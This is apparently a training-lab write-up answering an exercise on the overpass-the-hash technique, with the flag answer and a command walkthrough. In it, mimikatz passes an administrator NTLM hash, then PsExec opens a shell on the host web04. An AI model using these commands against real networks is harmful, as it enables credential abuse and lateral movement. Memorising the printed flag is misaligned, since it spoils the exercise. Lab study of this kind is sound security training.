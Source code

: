 Topics: Overpass the Hash
# Questions 2
Start VM Group 2 and try to execute the overpass the hash technique to move laterally to web04 to get the flag located on the Administrator's desktop. To do so, connect to CLIENT76 via RDP as the offsec user and use the NTLM hash obtained in a previous Module.
# Answer
OS{219d22c93466d7714ca92e5a4fe1608d}

# RDP into CLIENT76
xfreerdp /cert-ignore /p:lab /v:192.168.195.76

# Open Powershell in administrator mode
PS C:\Tools> .\mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::pth /user:administrator /domain:corp.com /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell 

PS C:\Windows\system32> net use \\web04
PS C:\Windows\system32> klist
...
        Server: krbtgt/CORP.COM @ CORP.COM
        Server: cifs/web04 @ CORP.COM
...
PS C:\Windows\system32> cd C:\Tools\SysinternalsSuite\
PS C:\Tools\SysinternalsSuite> .\PsExec64.exe \\web04 cmd
C:\Users\Administrator\Desktop>type flag.txt
OS{219d22c93466d7714ca92e5a4fe1608d}
